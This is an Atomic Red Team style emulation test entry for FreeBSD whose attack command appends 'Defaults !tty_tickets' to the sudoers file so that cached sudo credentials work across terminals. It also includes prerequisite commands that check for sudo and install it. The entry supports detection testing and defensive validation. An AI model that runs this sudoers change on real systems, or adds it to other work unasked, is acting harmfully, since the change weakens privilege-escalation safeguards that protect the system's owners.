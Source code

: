 


<br/>
<br/>

## Atomic Test #6 - Disable tty_tickets for sudo caching (freebsd)
Sets sudo caching tty_tickets value to disabled. This is dangerous to modify without using 'visudo', do not do this on a production system.

**Supported Platforms:** Linux


**auto_generated_guid:** 4df6a0fe-2bdd-4be8-8618-a6a19654a57a






#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
sudo sh -c "echo Defaults "'!'"tty_tickets >> /usr/local/etc/sudoers"
sudo visudo -c -f /usr/local/etc/sudoers
```




#### Dependencies:  Run with `sh`!
##### Description: Check if sudo is installed.
##### Check Prereq Commands:
```sh
if [ ! -x "$(command -v sudo)" ]; then exit 1; else exit 0; fi;
```
##### Get Prereq Commands:
```sh
(which pkg && pkg install -y sudo)
```




<br/>
